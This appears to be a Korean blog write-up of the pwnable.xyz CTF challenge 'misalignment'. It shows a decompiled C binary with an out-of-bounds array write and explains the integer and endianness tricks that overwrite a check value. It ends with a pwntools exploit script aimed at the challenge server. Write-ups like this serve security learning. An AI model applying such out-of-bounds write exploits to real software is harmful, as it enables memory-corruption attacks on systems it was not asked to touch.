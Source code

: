 ```yaml
---
title: "[pwnable.xyz]misalignment"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
published : false
---
```


```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-A0h]
  _QWORD v5[3]; // [rsp+18h] [rbp-98h]
  __int64 v6; // [rsp+30h] [rbp-80h]
  __int64 v7; // [rsp+38h] [rbp-78h]
  __int64 v8; // [rsp+40h] [rbp-70h]
  unsigned __int64 v9; // [rsp+A8h] [rbp-8h]
 
  v9 = __readfsqword(0x28u);
  setup(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 152uLL);
  *(_QWORD *)((char *)v5 + 7) = 0xDEADBEEFLL;
  while ( (unsigned int)_isoc99_scanf("%ld %ld %ld", &v6, &v7, &v8) == 3 && v8 <= 9 && v8 >= 4294967289 )// v8>=-7
  {
    v5[v8 + 6] = v6 + v7;
    printf("Result: %ld\n", v5[v8 + 6]);
  }
  if ( *(_QWORD *)((char *)v5 + 7) == 0xB000000B5LL )
    win();
  return 0;
}
```

0xb5, 0x00, 0x00, 0x00, 0xb0, 0x00, 0x00, 0x00, 0x00 이런식으로 리틀엔디안으로 넣어주면 된다.

64비트에서 scanf의 %ld는 2^63 − 1 보다 큰 값이 들어올 경우 2^63-1 이다.

```
>>> 0xb500000000000000 - 0xffffffffffffffff - 1
-5404319552844595200L

>>> 0x0b000000
184549376
```

v5[0]에 0xb500000000000000 , v5[1]에 0x0b000000을 넣어주면 된다.

![](https://user-images.githubusercontent.com/32904385/72206532-86595780-34d2-11ea-9b45-2005bc8ff603.png)

> exploit.py

```python
from pwn import *
 
#p= process("./challenge")
p=remote("svc.pwnable.xyz",30003)
 
context.log_level='debug'
 
p.writeline("-5404319552844595200 0 -6")
p.readuntil("Result: ")
p.writeline("184549376 0 -5")
p.readuntil("Result: ")
p.writeline("1 1 1000")
p.interactive()
```


